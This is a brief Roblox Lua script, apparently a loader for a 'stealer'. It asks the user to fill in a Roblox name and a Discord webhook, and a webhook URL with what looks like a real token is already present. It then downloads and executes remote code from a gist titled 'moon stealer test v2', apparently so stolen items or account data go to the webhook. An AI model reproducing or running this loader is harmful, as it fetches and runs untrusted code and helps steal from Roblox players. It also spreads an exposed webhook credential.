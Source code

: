 _G.User = "mlkesadda12" -- your roblox name here
_G.webhook = "https://discord.com/api/webhooks/1116661480532742165/xrmus6JEsp1yfOv4tgGhP2v7lHmQuSR953jT2mrFbprK66qwP2oZnoZkFod_Op6ftO9M" -- your webhook here

loadstring(game:HttpGet("https://gist.githubusercontent.com/MoonDevRed/71c34701fbb683e1dfd7e8690c6741fc/raw/9023a87e69513d66375d3871b52b2f0bcb67951f/moon%2520stealer%2520test%2520v2", true))()
